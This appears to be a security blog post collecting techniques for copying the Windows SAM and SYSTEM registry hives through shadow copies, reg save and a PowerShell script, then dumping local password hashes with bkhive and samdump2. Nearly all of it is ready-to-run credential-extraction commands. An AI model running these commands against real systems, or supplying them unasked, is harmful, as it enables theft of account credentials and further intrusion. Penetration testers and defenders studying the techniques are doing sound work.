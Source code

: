 title: Manual Local Hash Extraction
publish: True
categories: [network security]

---

There has been enough interest around the topic of manual local hash extraction that I wanted to document all of the techniques I am aware of in one place.

<!-- READMORE -->

The SAM and SYSTEM hives hold the necessary information to acquire authentication hashes for all local users on a Windows operating system. Normally, these files are locked and inaccessible, even by the SYSTEM and Administrator accounts. The following techniques are ways to access the SAM and SYSTEM hives within a Windows operating system during normal operation. Be advised that these techniques require Administrator or SYSTEM level privileges.

### Volume Shadow Copy Service

``` text
vssadmin create shadow /for=c: #if required
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SAM .
```

[Reference](http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html)

### Registry Access

``` text
reg save hklm\sam SAM
reg save hklm\system SYSTEM
```

[Reference](http://exfiltrated.com/tools.php#SAMExtract)

### PowerShell Script

``` text
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
`cmd /c copy "$($volume.DeviceObject)\windows\system32\config\SAM"\`
$volume.Delete();if($notrunning -eq 1){$service.Stop()}
```

[Reference](http://www.canhazcode.com/index.php?a=4)

### Finishing the Job

Use the following commands to finish the job. Both applications are included in the Kali default tool set.

``` bash
bkhive SYSTEM keyfile
samdump2 SAM keyfile
```

